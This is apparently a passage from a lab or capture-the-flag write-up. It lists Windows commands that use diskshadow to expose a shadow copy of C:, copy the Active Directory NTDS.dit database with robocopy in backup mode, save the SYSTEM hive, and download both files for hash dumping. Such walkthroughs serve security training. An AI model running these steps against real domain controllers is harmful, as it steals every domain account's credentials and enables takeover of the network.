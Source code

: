 ```bash
mkdir C:\temp
```

```bash
cd C:\temp
```

```bash
upload pain.dsh
```

Mount C: volume as Z: using diskshadow and the uploaded script

```bash
diskshadow /s pain.dsh
```

Copy the NTDS.dit file from the exposed Z: drive using backup mode

```bash
robocopy /b z:\windows\ntds . ntds.dit
```

Save the SYSTEM hive for decrypting NTDS.dit secrets

```bash
reg save hklm\system c:\temp\system
```

```bash
download ntds.dit
```

```bash
download system
```

![image.png](/assets/Images/VL_Baby/image%2010.png)

 Dump hashes from the NTDS.dit file using the SYSTEM hive
